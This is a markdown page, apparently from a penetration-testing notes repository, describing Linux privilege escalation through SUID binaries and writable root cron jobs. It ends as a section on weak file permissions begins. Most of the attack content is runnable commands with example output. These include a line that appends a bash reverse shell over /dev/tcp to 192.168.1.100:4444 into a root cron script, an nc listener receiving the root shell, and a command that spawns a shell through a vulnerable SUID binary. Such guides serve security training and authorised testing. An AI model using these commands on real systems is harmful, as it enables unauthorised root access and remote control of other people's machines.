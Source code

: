 # Linux Privilege Escalation

## Overview
Linux privilege escalation involves elevating access from a low-privilege user to a high-privilege user (e.g., root) by exploiting misconfigurations, vulnerabilities, or weak security controls. This documentation includes additional techniques to cover modern Linux systems.

## Detailed Methods and Techniques
- **SUID/SGID Binaries**:
  - **Technique**: Exploit binaries with SUID/SGID bits set to execute as root or a privileged group.
  - **Execution**: Find SUID binaries.
    ```bash
    find / -perm -4000 2>/dev/null
    ```
    **Example Output**:
    ```
    /usr/bin/passwd
    /usr/bin/sudo
    /opt/custom_app
    ```
    - Exploit a vulnerable SUID binary (e.g., `custom_app`).
      ```bash
      /opt/custom_app /bin/sh
      ```
      **Example Output**:
      ```
      # whoami
      root
      ```
    - **Purpose**: Gain root privileges via a vulnerable binary.
- **Misconfigured Cron Jobs**:
  - **Technique**: Exploit cron jobs running as root with writable scripts.
  - **Execution**: Check cron configurations.
    ```bash
    cat /etc/crontab
    ls -l /etc/cron.*
    ```
    **Example Output**:
    ```
    * * * * * root /scripts/backup.sh
    -rwxrwxrwx 1 root root /scripts/backup.sh
    ```
    - Inject malicious code:
      ```bash
      echo "bash -i >& /dev/tcp/192.168.1.100/4444 0>&1" >> /scripts/backup.sh
      ```
      **Example Output**: Reverse shell connects.
      ```
      nc -lvp 4444
      Connection from 192.168.1.20
      # whoami
      root
      ```
    - **Purpose**: Gain root access during cron execution.
- **Weak File Permissions**:
  - **Technique**: Exploit sensitive files (e.g., `/etc/passwd`, `/etc/shadow`) with weak permissions.